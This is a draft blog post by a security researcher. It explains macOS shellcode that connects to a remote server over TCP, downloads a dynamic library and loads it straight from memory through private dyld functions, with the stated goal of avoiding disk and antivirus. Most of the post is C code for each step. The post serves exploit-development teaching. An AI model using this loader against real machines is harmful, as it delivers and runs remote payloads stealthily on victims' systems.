 ```yaml
---
layout: post
title: Loading from memory
draft: true
---
```


Building shell code and playing with assembly is my idea of fun. In this article I introduce shellcode that executes to download a dynamic library from a TCP connection and loads it without ever touching the disk. On MacOS, there are several methods of doing that [1], but I would like to show another alternative which possibly requires less code to implement.

## TL;DR;

I reuse functions in DYLD that were never meant to be used externally.

## Shellcode Compiler

A while back I introduced a utility called [shellcc](https://github.com/nologic/shellcc) which is built to assist with building shellcode using a high level language like C. It is called _shellcc_ only because it constructs very compact byte code of instructions. Unfortunately, it does not really handle a lot of the important use-cases of for real shellcode construction. Use-cases such as character restrictions. As such, the tool serves another purpose really well.

I show this use-case in an introductory walk through:

<center><iframe width="420" height="315" src="https://www.youtube.com/embed/yg9svg9xE8g" frameborder="0" allowfullscreen></iframe></center>

When I started out my work on iOS, I did not know Aarch64 assembly very well. So, I needed a boon to help me bootstrap. This was the other purpose of _shellcc_ - an educational tool. I would use it to compile basic C programs in order to understand how the assembly is written to make system calls and process data. So, the tool is kind of an 80% solution that would give me template assembly that I could later play with. It also helped me with reverse engineering. Specifically to test theories about what certain blocks from IDAPro might have looked like in a high level language.

On semi-regular basis, I try to do a presentation at the NYU OSIRIS lab for educational purposes. I pick a topic that I had played with recently and found useful and present in practical detail. I wanted to do this with _shellcc_ and, so, I came up with a practial example: *How to write one of the most common shellcodes? One that connects to a TCP port, downloads a dylib and loads it into the process space.* As an added challenge, I wanted to do so without touching disk (and triggering AV's). This is what I would like to present in this blog. Of course, as I've mentioned earlier, there is more than one way.

## The Technique

The file that implements the technique is called [injectdyld.c](https://github.com/nologic/shellcc/blob/master/shellcode/injectdyld.c) and can be found in the github repository. The name is a bit misleading, but the the technique is there.

First, we connect to the port and download the library:

```c
    bzero((struct sockaddr *)&serv_addr,sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = SERVER_IP;
    serv_addr.sin_port = htons(SERVER_PORT);

    // Connect to the remote host.
    if(scc_connect(sockfd,(struct sockaddr *)&serv_addr,
                   sizeof(serv_addr)) < 0) {
        // If not, clean up and bail.
        scc_exit(44);
    }

    int fileSize = receivefile(sockfd, dyld_buffer, mem_size);
```

Next, we load the dynamic loader:

```c
    int dyld_fd = scc_open("/usr/lib/dyld", O_RDONLY, 0);
    void* dyld_buf = scc_mmap(NULL, mem_size, PROT_READ, 
                              MAP_PRIVATE, dyld_fd, 0);
```

This step is a bit wasteful because the process would've likely already had the dynamic loader mapped in memory. However, we are in shell code and it is a lot easier to map the file than to find the existing location.

Then, we find the symbol `dlsym` which will help us find other symbols in the process space.

```c
    typedef void* (*dlsym_t)(void* handle, const char* symbol);
    dlsym_t dlsym = (dlsym_t)findSymbol64(dyld_buf, mem_size, 
                                          "_dlsym", 6);
```

The `findSymbol64` exists in the shellcode and it parses the Mach-O file of `dyld` to locate the function.

Then we locate the `loadFromMemory` function or, rather, a C++ class constructor.

```c
    typedef void* (*loadFromMemory_t)
       (const uint8_t* mem, uint64_t len, const char* moduleName);

    loadFromMemory_t loadFromMemory = (loadFromMemory_t)findSymbol64(
          dyld_buf, mem_size, "__ZN4dyld14loadFromMemoryEPKhyPKc", 33);

    void* image = loadFromMemory(dyld_buffer, fileSize, NULL);
```

The [__ZN4dyld14loadFromMemoryEPKhyPKc](https://opensource.apple.com/source/dyld/dyld-353.2.1/src/dyld.cpp) function was discovered by analyzing the dyld source code for how it loads Mach-O's into memory. This function will construct a class in memory to internally describe the layout and all the features that the system cares about.

```c++
ImageLoader* loadFromMemory(const uint8_t* mem, uint64_t len, 
                            const char* moduleName)
{
    // if fat wrapper, find usable sub-file
    const fat_header* memStartAsFat = (fat_header*)mem;
    uint64_t fileOffset = 0;
    uint64_t fileLength = len;
    if ( memStartAsFat->magic == OSSwapBigToHostInt32(FAT_MAGIC) ) {
        if ( fatFindBest(memStartAsFat, &fileOffset, &fileLength) ) {
            mem = &mem[fileOffset];
            len = fileLength;
```

Next is the easy part. This is where we force the loaded Mach-O file to join the process as a proper dynamic library.

```c
    typedef void (*registerInterposing)(void* _this);

    // `vtable for'ImageLoaderMachOCompressed
    ((registerInterposing) (*( (*(uint8_t***)image) + 64))) (image);
```

Because we are not implementing this in C++, we don't get the nice language abstractions to class objects. So, instead we have to force an instance call. Remember, back in the day, C++ was implemented as C++ to C translator, so we know this has to be possible.

We dereference the image object to obtain the `vtable`, we then dereference again at an offset to get the function of our dreams. We cast the pointer to a function pointer and call it with the pointer to the object as the first parameter. C++ functions (when looked through the eyes of C) expect the first parameter to the `this` pointer.

The `registerInterposing` is a function that is called when we inject libraries into the process by using the environment variable (i.e. `DYLD_INSERT_LIBRARIES`). Using this private interface activates the internal workings of DYLD to load libraries properly to be used by the rest of the process.

```c
    foo_t foo = dlsym(RTLD_DEFAULT, "foo");

    // call the desired procedure.
    int ret = foo();
```

Finally, we execute our library function to kick off the maliciously injected code.

## Conclusion
Using functions `loadFromMemory` and `registerInterposing` seem simple but it was not obvious without a fairly in-depth analysis of DYLD. This method is useful when the alternatives might not be applicable.


---
[1] Objective-C runtime method (https://s3.amazonaws.com/s3.synack.com/infiltrate.pdf slide 29)







